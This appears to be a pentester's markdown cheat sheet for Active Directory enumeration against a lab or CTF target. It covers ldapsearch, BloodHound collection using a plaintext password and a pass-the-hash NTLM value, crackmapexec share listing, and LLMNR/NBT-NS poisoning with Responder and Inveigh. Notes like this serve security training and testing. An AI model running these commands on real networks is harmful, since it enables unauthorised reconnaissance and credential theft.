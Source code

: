 # AD Enum

## Orange Cyberdefense Mindmap

[AD Mindmaps](https://github.com/Orange-Cyberdefense/ocd-mindmaps)

## LDAP search

[ldapsearch-examples](https://devconnected.com/how-to-search-ldap-using-ldapsearch-examples/)

Identifying LDAP BASE

```bash
ldapsearch -H ldap://10.10.10.192 -x -s base rootDomainNamingContext ldapServiceName dnsHostName defaultNamingContext
```

```bash
ldapsearch -H ldap://<TARGET IP> -x -b "<DOMAIN_NAME_CONTEXT>"
```

## RPC search

```bash

```

## BloodHound

### From Kali attacker machine (using [bloodhound-python](https://github.com/fox-it/BloodHound.py))

With password

```bash
bloodhound-python -ns 10.10.10.192 -d blackfield.local -u support -p '#00^BlackKnight' -c all 
```

With hash

```bash
bloodhound-python -ns 10.10.10.192 -d blackfield.local -u svc_backup --hashes 9658d1d1dcd9250115e2205d9f48400d:9658d1d1dcd9250115e2205d9f48400d -c all
```

### From Windows on the target domain (using [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors))

```bash
/SharpHound
```

or

```bash
./SharpHound --collectionmethods All --domain <DOMAIN>
```

## SMB

### Crackmapexec

```bash
crackmapexec smb -u '<USER>' -p '<PWD>' -d '<DOMAIN>' <Target_IP> --shares
```

## LLMNR/NBT-NS Poisoning

### Responder

```bash
sudo responder -I ens224
```

Logs are located at `/usr/share/responder/logs/` folder.

### Inveigh

```powershell
C:\Tools\Inveigh.exe -nbns y -mDNS y
```

## Links

- [bloodhound-python](https://github.com/fox-it/BloodHound.py)
- [crackmapexec cheatsheet](https://lisandre.com/archives/14589)
- [OSCP-Cheatsheets](https://github.com/blackc03r/OSCP-Cheatsheets)
- [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
